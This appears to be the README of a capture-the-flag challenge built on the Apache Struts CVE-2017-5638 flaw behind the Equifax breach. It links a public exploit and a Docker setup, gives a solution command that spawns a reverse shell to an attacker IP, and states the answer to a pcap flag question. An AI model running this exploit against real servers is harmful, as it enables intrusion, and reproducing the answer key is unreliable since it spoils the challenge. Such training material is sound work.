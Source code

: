 # Credit Monitoring

Identity theft is not a joke Jim! Millions of families suffer every year... 147 million this time.

## Description

Based on the vulnerability that stole millions of identities - thanks Equifax: https://www.synopsys.com/blogs/software-security/equifax-apache-struts-vulnerability-cve-2017-5638/

Exploit taken from: https://github.com/jrrdev/cve-2017-5638
- Exploit is python2, requires conversion using 2to3. The version within this repo is converted to python3 for easier testing.

Docker image (also linked in repo, same author): https://hub.docker.com/r/jrrdev/cve-2017-5638
- Our docker image leverages jrrdev's Dockerfile to generate *apache-struts.jar*: https://github.com/jrrdev/cve-2017-5638/blob/master/Dockerfile
    - Instead of running the maven builder on each pass, we copy out the resultant jar file, then it's as simple as running our base-image with java8 installed on *service.jar*.

## How to Build

Run:

```
docker compose up --build
```

## Solution

Now spawns a reverse shell.

`./solution <server_ip_address> <attacker_ip_address>` (Example: `./solution.sh 127.0.0.1 172.19.0.1`)

## Static Flag + Solution

Which packet numbers in the attached pcap (*successful_capture.pcapng*) contain shell command input and output? (Comma separated input #,output #)

Answer: 4,10

Packet 4 contains "whoami"
Packet 10 contains "user"
